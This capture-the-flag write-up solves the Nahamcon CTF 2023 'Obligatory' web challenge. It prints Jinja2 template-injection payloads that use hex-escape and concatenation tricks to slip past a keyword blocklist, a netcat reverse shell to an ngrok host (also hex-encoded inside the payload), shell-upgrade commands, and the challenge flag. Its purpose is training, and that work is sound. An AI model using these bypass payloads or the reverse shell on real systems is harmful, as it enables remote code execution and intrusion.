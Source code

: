 ```yaml
---
name: Obligatory (2023)
event: Nahamcon CTF 2023
category: Web
description: Writeup for Obligatory (Web) - Nahamcon CTF (2023) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Obligatory

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/XHg_sBD0-es/0.jpg)](https://www.youtube.com/watch?v=XHg_sBD0-es?t=1075 "Nahamcon CTF 2023: Obligatory (Web)")

## Description

> Every Capture the Flag competition has to have an obligatory to-do list application, right???

## Solution

Register account and try some payloads (XSS, SSTI, SQLi) but the notes all render as text without issues.

However, when a task is created there's a GET parameter `success`, that's set to `Task created`.

When changing the value to an [SSTI polyglot](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), `${{<%[%'"}}%\`, we get an error message.

```python
HACKER DETECTED!!!!
The folowing are not allowed: [ {{\s*config\s*}},.*class.*,.*mro.*,.*import.*,.*builtins.*,.*popen.*,.*system.*,.*eval.*,.*exec.*,.*\..*,.*\[.*,.*\].*,.*\_\_.* ]
```

Bypasses: https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#accessing-subclasses-with-bypasses

More bypasses here: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---filter-bypass

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

It's blocked due to `builtin` and `popen`, so let's go through it manually.

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')}}
```

We can use hex or concatenation to bypass the filter.

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuil'+'tins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('pop'+'en')('id')|attr('read')()}}
```

We don't get output.. let's [hex encode a reverse shell](<https://gchq.github.io/CyberChef/#recipe=To_Hex('%5C%5Cx',0)&input=cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI%2BJjF8bmMgOC50Y3Aubmdyb2suaW8gMTU3MjMgPi90bXAvZg>).

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 8.tcp.ngrok.io 15723 >/tmp/f
```

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuil'+'tins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimp'+'ort\x5f\x5f')('os')|attr('pop'+'en')('\x72\x6d\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x6d\x6b\x66\x69\x66\x6f\x20\x2f\x74\x6d\x70\x2f\x66\x3b\x63\x61\x74\x20\x2f\x74\x6d\x70\x2f\x66\x7c\x2f\x62\x69\x6e\x2f\x73\x68\x20\x2d\x69\x20\x32\x3e\x26\x31\x7c\x6e\x63\x20\x38\x2e\x74\x63\x70\x2e\x6e\x67\x72\x6f\x6b\x2e\x69\x6f\x20\x31\x35\x37\x32\x33\x20\x3e\x2f\x74\x6d\x70\x2f\x66')|attr('read')()}}
```

Make the shell interactive.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash");'
CTRL+Z
stty raw -echo; fg;
export TERM=linux;clear;
```

Check the database folder.

```bash
cd DB
strings *
```

We find the flag!

Flag: `flag{7b5b91c60796488148ddf3b227735979}`
